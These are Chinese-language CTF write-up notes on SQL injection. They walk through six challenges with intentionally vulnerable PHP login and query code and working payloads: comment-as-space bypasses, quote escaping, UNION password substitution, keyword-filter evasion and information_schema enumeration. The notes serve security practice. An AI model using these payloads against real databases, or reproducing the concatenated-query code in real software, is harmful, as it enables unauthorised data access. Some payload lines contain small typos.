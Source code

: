 # sql注入做题总结

### 1.CG-CTF:MYSQL
```php
<?php
  $id = intval($_GET[id]);
  $query = @mysql_fetch_array(mysql_query("select content from ctf2 where id='$id'"));
  if ($_GET[id]==1024) {
      echo "<p>no! try again</p>";
  }
  else{
    echo($query[content]);
  }
}
?>
```
    wp：精度问题，id=1024.1得到flag
    
### 2.CG-CTF:SQL注入1
```php
if($_POST[user] && $_POST[pass]) {
    mysql_connect(SAE_MYSQL_HOST_M . ':' . SAE_MYSQL_PORT,SAE_MYSQL_USER,SAE_MYSQL_PASS);
  mysql_select_db(SAE_MYSQL_DB);
  $user = trim($_POST[user]);
  $pass = md5(trim($_POST[pass]));
  $sql="select user from ctf where (user='".$user."') and (pw='".$pass."')";
    echo '</br>'.$sql;
  $query = mysql_fetch_array(mysql_query($sql));
  if($query[user]=="admin") {
      echo "<p>Logged in! flag:******************** </p>";
  }
  if($query[user] != "admin") {
    echo("<p>You are not admin!</p>");
  }
}
echo $query[user];
?>
```
    wp:直接构造and 1 = 1的结构，注意需要替代空格
    user=admin')/**/and/**/1=1#&pass=123
    
### 3.CG-CTF:SQLInjection
```php
<?php
function clean($str){
  if(get_magic_quotes_gpc()){
    $str=stripslashes($str);
  }
  return htmlentities($str, ENT_QUOTES);
}
$username = @clean((string)$_GET['username']);
$password = @clean((string)$_GET['password']);

$query='SELECT * FROM users WHERE name=\''.$username.'\' AND pass=\''   .$password.'\';';
?>
```
    wp:clean函数将’和“过滤了所以重点就是将username后面的'转义
    payload为?username=admin \&password=or 1=1#
    这样构造的语句就成了select * from users where name=' admin \' and pass=' or 1=1#';
    也就是把name字段变成了 admin ' and pass=
    整个语句最后理解为select * from users where name=***** or 1=1;
    这样不管查询了什么名称，都是为真的语句。也就是把数据表中的所有数据全部查出
    
### 4.CG-CTF:SQL注入2

```php
<?php
if($_POST[user] && $_POST[pass]) {
   mysql_connect(SAE_MYSQL_HOST_M . ':' . SAE_MYSQL_PORT,SAE_MYSQL_USER,SAE_MYSQL_PASS);
  mysql_select_db(SAE_MYSQL_DB);
  $user = $_POST[user];
  $pass = md5($_POST[pass]);
  $query = @mysql_fetch_array(mysql_query("select pw from ctf where user='$user'"));
  if (($query[pw]) && (!strcasecmp($pass, $query[pw]))) {
      echo "<p>Logged in! Key: ntcf{**************} </p>";
  }
  else {
    echo("<p>Log in failure!</p>");
  }
}
?>
```

    wp:没有任何过滤，sql语句的用法是将pw从表ctf中取出，在mysql中，当你使用了union语句，而联合查询前的语句返回空，
    则后面的语句的结果就会等于前面字段。
    如select pw from ctf where name='' union select '值';
    那么返回的结果为：pw=值；
    所以payload:user='union select "md(str)"--+&pass=str
    
### 5.百度杯九月场：SQL

    题目为int型注入，过滤了or和and和select，可以使用<>过滤
    payload:id=o<>rder by 3   知道字段为3
    id=union sele<>ct 1,schema_name,3 from info<>rmaton_schema.schemata得到数据库名sqli
    id=union sel<>ect 1,table_name,3 from info<>rmation.tables where table_schema='sqli' 得到表info
    id=union sele<>ct 1,column_name,3 from info<>rmation.columns where table_name='info'得到字段flAg_T5ZNdrm
    id=union sel<>ect 1,flAg_T5ZNdrm,3 from sqli.info得到flag{6b453f35-bc6b-41a4-852c-75a40b003bd1}

### 6.百度杯九月场：SQLI
    
    这题是逗号过滤
    输入 union select 1,2 %23时回显 1'union select 1猜测为逗号过滤，使用join绕过过滤
    join语句:
       select 字段1，字段2 from 表名 where id=xxx union select * from (select 1) a join (select 2) b；
    多少个字段就select多少个，这题通过order by得知查询了2个字段，所以有2个select。
    a和b分别为select 1 和select 2的别名
    若前面id为-1，则查询结果中为空，则显示union后面的数据
    payload:id=-1' union select * from (select 1) a join (select 2) b %23
    回显2则可以在2处插入查询语句。后略
